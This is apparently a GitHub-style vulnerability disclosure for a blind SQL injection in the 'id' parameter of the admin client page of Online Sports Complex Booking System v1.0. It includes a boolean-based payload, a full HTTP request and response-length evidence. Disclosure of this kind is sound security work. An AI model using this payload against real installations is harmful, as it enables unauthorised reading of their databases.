 # Online Sports Complex Booking System v1.0 by oretnom23 has SQL injection

vendors: https://www.sourcecodester.com/php/15236/online-sports-complex-booking-system-phpmysql-free-source-code.html

Vulnerability File: /scbs/admin/?page=clients/manage_client&id=

Vulnerability location: /scbs/admin/?page=clients/manage_client&id=, id

Current database name: scbs_db,length is 7

[+] Payload: /scbs/admin/?page=clients/manage_client&id=1%27%20and%20length(database())%20=7%20--+

```sql
GET /scbs/admin/?page=clients/manage_client&id=1%27%20and%20length(database())%20=7%20--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=gp584rjk4ugbjakmto03cu7pco
Connection: close

// Leak place ---> id
```

When length (database ()) = 6, Content-Length: 24661
![image](https://user-images.githubusercontent.com/54017627/165216798-990bb9d6-46d4-4e55-9b01-dc0a82789f8d.png)

![image](https://user-images.githubusercontent.com/54017627/165216721-17844e2b-fb45-4238-9c2d-4b336401f9d7.png)

When length (database ()) = 7, Content-Length: 24718
![image](https://user-images.githubusercontent.com/54017627/165216774-aa7378f7-6008-472c-ae1d-321329d70dfa.png)

![image](https://user-images.githubusercontent.com/54017627/165216674-1242da03-c29e-4826-997d-6f844d36c6f5.png)

